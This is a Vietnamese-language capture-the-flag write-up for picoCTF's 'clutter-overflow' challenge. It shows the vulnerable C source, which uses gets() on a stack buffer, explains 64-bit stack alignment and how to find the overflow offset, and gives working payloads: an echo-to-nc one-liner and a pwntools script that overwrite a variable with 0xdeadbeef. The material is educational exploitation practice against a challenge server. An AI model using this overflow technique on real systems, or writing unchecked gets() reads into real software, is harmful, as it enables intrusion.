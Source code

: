 # clutter-overflow

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Khi code có giá trị bằng GOAL (tức là 0xdeadbeef) thì flag sẽ được in ra
- Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. Ở bài này, mô hình stack  trông như sau:

![image.png](image.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 256 ký tự để ghi đè biến clutter, gọi là padding. Sau đó ta cần ghi đè giá trị của biến code thành 0xdeadbeef
- Nhưng vì đây là chương trình 64 bits nên sẽ có sự căn chỉnh stack (stack alignment System V ABI): stack phải được căn chỉnh 16-byte trước khi gọi một hàm khác, tức là giá trị của con trỏ ngăn xếp RSP (stack pointer) phải chia hết cho 16. Ở đây hàm win có hai biến số là clutter chiếm 256 byte và code chiếm 8 byte. Tổng cộng là 264 byte. Nhưng vì 264 không chia hết cho 16 nên thay vì chiếm 264 byte thì hai biến này chiếm 272 byte (0x110 trong hex):

![image.png](image%201.png)

- Vậy vấn đề là clutter chiếm bao nhiêu byte và code chiếm bao nhiêu byte? Vấn đề này sẽ tùy thuộc vào compiler. Có nhiều cách để align stack, compiler nghĩ cách nào tốt thì sẽ chọn cái đó

Ví dụ compiler có thể align như thế này

```
rbp
code
clutter
pad
```

Hoặc thế này (re-ordering variables tại vì nó thích các biến hay access ở gần rbp nhất có thể)

```
rbp
pad
code
clutter
```

Hoặc nếu ta không sử dụng biến code thì một số compiler có thể không alloc biến đó luôn.

Và thậm chí compiler có quyền không thực hiện stack alignment, bù lại performance sẽ bị tệ.

~ ~ Fun note: stack frame cũng chỉ là 1 quy ước để dễ hơn trong việc phân vùng hàm (dọn dẹp dễ hơn, dễ debug hơn). Compiler thích thì nó có quyền bỏ luôn stack frame hoặc tự nghĩ ra 1 cái khác để phân vùng =)))

- Vậy cách tốt nhất là dùng tool để tìm padding

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta dùng [zerosum0x0: Overflow Exploit Pattern Generator - Online Tool](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) để genarate ra 300 ký tự:

![image.png](image%202.png)

![image.png](image%203.png)

- Ta thu được biến code có giá trị 0x6a41396941386941. Dùng CyberChef để dịch ngược sang ký tự ta được ký tự Ai8Ai9Aj:

![image.png](image%204.png)

- Vậy offset (khoảng cách) ở đây là 264:

![image.png](image%205.png)

b) Bước 2: Viết payload

- Payload sẽ gồm 264 padding và giá trị 0xdeadbeef. Trong little-edian thì 0xdeadbeef được viết là \xef\xbe\xad\xde

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde"; cat) | nc mars.picoctf.net 31890
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('mars.picoctf.net', 31890)
payload = b'a'*264 + p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Hiểu về cơ chế căn chỉnh stack trên hệ thống 64 bits. Những bài nâng cao sau này sẽ cần dùng kiến thức căn chỉnh stack nhiều hơn
